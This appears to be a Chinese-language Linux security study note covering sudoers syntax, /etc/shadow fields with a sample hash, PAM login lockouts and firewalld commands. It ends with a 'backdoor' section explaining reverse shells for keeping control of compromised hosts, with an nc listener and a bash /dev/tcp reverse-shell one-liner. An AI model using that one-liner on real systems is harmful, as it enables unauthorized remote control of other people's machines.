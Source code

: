 ### /etc/sudoer
    - root ALL=(ALL) ALL
        - 第一个ALL 允许哪个终端、机器访问 sudo
        - 第二个ALL 允许sudo以哪个用户的身份执行命令
        - 第三个ALL 允许用户以root身份执行什么命令
### /etc/shadow
    - garys:$1$2Uu6yiEE$m4Pj3bKxVd9oLA74jj4F0/:18364:0:99999:7:::
        - 第一列 用户名
        - 第二列 被加密过的密码；‘ * ’或者是‘ ! ’表示这个用户无法进行登录操作。
        - 第三列 密码最近变更的时间；1970年1月1日作为1，每过一天加1；
        - 第四列 重设密码后多少天内密码不可再次被更动
        - 第八列 账户哪一天失效
### PAM(Pluggable Authentication Modules)
- /etc/ssh/sshd_config 默认是开启状态“UsePAM yes”
- pam_tally2
```bash
# 禁止/etc/ssh/denyuser文件内的用户通过ssh登录
vim /etc/pam.d/sshd
auth required pam_listfile.so item=user sense=deny file=/etc/ssh/denyuser onerr=succeed
``
查看test用户登录的错误次数及详细信息
pam_tally2 --user test
清空test用户的错误登录次数，即手动解锁
pam_tally2 --user test --reset

# 通过tty登录的用户，输入密码错误超过三次则锁定1分钟，包含root用户且root用户锁定2分钟
vim  /etc/pam.d/login
auth required pam_tally2.so deny=3 unlock_time=60 even_deny_root root_unlock_time=120

vim /etc/pam.d/login
```

## iptables
### firewalld 被封装过的iptables
systemctl status firewalld.service

1. 查看防火墙规则
firewall-cmd --list-all 

2. 要想使配置的端口号生效,必须重新载入 
firewall-cmd --reload

3. 查询端口是否开放
firewall-cmd --query-port=8080/tcp
4. 开放80端口 和 移除端口
firewall-cmd --permanent --add-port=80/tcp
firewall-cmd --permanent --remove-port=8080/tcp
firewall-cmd --permanent --zone=public --add-port=80/tcp 
5. 端口转发：
firewall-cmd --permanent --add-forward-port=port=80:proto=tcp:toport=8080:toaddr=134.175.167.56


## 后门
- 参考  
https://xz.aliyun.com/t/2549  
### 反弹shell
1. 意义
    1. 局域网内肉鸡无法被连接。
    2. 肉鸡ip会动态改变，不能持续控制。
    3. 防火墙等限制，肉鸡只能发送请求，不能接收请求。
    4. 肉鸡网络环境未知，主动连接，省事。
2. 实现
```bash
# 我方服务器执行
nc -lvp 2333
# 肉鸡上执行
IP=127.0.0.1
bash -i >& /dev/tcp/${IP}/2333 0>&1
```